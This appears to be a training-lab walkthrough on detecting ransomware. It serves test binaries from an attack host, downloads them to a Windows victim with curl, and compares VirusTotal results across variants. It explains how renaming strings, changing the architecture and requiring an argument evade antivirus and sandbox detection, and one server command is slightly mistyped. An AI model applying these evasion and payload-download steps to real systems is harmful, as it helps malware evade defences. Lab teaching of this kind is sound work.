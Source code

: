 # Detection

## Host the "evil" files.

1. First record your IP address on the eth0 interface. `ip addr`
2. Now change directory into the notransomware directory.
3. Run the following command to serve the files for download.
`python3 -m httpserver`

## Download the "evil" files.

1. Switch to the "WIN-VICTIM-HOST-#" by pressing ctrl+shift+alt.
2. Do some pre-flight checks, you can access all the required programs by clicking the search bar in the bottom left and typing their respective names. When they appear in the start menu results, double click them.
- Is a folder on the desktop called? (If not, launch a command prompt and run `git clone `)
- Is firefox installed? (If not, launch a command prompt and run `choco install firefox`)
3. Open a command prompt. 
4. Run the following command with my new favorite living off the land binary for dowloading remote files. 
`curl http://172.31.24.<last octet of your linux attack host>:8000/test1.exe -o test1.exe`
5. Once you have this worked out, download all theo ther files you created on the linux attack host just changing the file names.
6. This is your first detection example...no alerts from windows defender.

## What does virust total have to say about all this?

1. Open firefox and browse to virus total.  www.virustotal.com
2. Click the **choose a file** optiont to upload for analysis.
3. Browse to C:\Users\Administrator and select test1.exe.
4. Wait for the analysis. It will look something like this, but may have changed with all of the concurent uploads of a similar file.
> Remember this is was the file that you saved as is and compiled in the amd64 architecture. Having just 3 detections for what will effectively encrypt files in your homedrive and attempt to connect to a server, while dropping a key and ransom note is pretty scray in itself.
5. Now Click the upload button in the top left beside the search bar and upload the second sample test2.exe
> This was the sample you simply replaced all occurances of the word encrypt with another word. This now comes back with only 2 detections. Putting on show case that changing common words and text associated with malware inside binaries will trick a number of detections in iteslef. Not to mention this changes zero function of the binary while completely changing the hash.
6. Finally, upload the 32bit version of this sample. Same sample as before, but compliled for the more commonly execuable 32bit architecture.
> By nature of the architecture you will see many more detections now, many of the static and behavioral analysis tools are tuned toward 32bit binaires and instructions.
7. All that's great but now upload the final sample where you added the argument requirement for it to run. Test232-args.exe.
> You will notice nearly all the detections go away now, even in the 32bit architecture. All of that work spent on creating different types of anti analysis techiniques and simply adding an argument requirement will fool nearly every auto analysis capability out there, making the detection solely reliant on strings.

Let's return to talk about what just happened and get ready to move on to live reponse.


